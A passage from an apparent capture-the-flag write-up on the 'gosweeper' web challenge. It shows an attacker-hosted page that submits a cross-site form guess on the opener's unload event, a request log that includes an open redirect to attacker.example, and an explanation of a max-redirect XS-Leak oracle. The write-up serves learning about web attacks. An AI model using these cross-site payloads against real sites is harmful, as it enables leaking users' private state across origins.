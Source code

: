 As such, this is what our `persist.html` looks like now, making a guess on tile 0 (the top-left corner)
after the bot navigates away from its opener:

```html
<form id="form-guess" method="post" action="https://gosweeper.example/guess" target="_blank">
  <input type="hidden" name="guess" value="0" />
</form>

<script>
  window.opener.onunload = () => {
    document.getElementById('form-guess').submit()
    // TODO
  }

</script>
```

Again, looking at the headless Chromium bots reveals that this is working as intended, with the
request to `/guess` being sent immediately after the one sent to `/board?xray=1`.

```hl_lines=10-11
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

The only thing left now is to detect whether there is still an active game after making
the guess.
Since we cannot use `fetch`, given that it would not include a cookie, we have to rely
on opening a new tab once again.
Here, an interesting behaviour emerges: if we reach the maximum number of redirects,
the window's origin will be `about:blank`, which is accessible from any origin;
otherwise, the origin will be `https://gosweeper.example` and we will not be able
to access any content of the window.
Therefore, to know if a redirect is successful or not, we just have to poll
the `w.window` object and check if it becomes null; if it does, we have lost access
to the window reference, meaning the redirect was successful (and there is no bomb).

In order to achieve the 19 redirects (well, 18, since opening the new tab also counts
as a redirect, apparently) before the final destination, we can use
[XSLeaks' own demo service][max-redirect-demo], which provides us with the
`https://xsinator.com/testcases/files/maxredirect.php?n=18&url=<url>` endpoint
(I've tried creating my own with Caddy, but it ended up not being reliable in the
challenge's instance).


[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/